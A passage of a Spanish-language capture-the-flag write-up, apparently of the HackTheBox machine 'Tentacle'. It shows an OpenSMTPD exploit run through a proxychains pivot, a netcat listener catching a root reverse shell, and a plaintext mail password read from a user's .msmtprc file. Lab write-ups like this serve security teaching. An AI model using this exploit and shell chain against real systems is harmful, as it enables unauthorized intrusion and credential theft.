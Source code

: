 ```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.224 - - [29/Aug/2022 18:03:23] "GET / HTTP/1.1" 200 -
```
Luego nos ponemos en escucha en el puerto 443 y corremos el script descargado en la maquina victima

```console
proxychains python3 smtpd_exploit.py 10.241.251.113 25 'bash /dev/shm/rev'
```

```
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.224:3128-<>-127.0.0.1:3128-<>-10.197.243.77:3128-<><>-10.241.251.113:25-<><>-OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```console
sudo nc -nlvp 443
```

```
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.224] 55024
bash: cannot set terminal process group (18): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~# 
```

Revisamos en que maquina nos encontramos y vemos que estamos en la 10.241.251.113 

```console
root@smtp:~# hostname -I
```

```
10.241.251.113
```

una vez dentro de la máquina vemos que existe un archivo en llamado .msmtprc donde podemos encontrar una contraseña del usuario j.nakazawa en texto plano

```console
root@smtp:~# cat /home/j.nakazawa/.msmtprc 
```

```
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>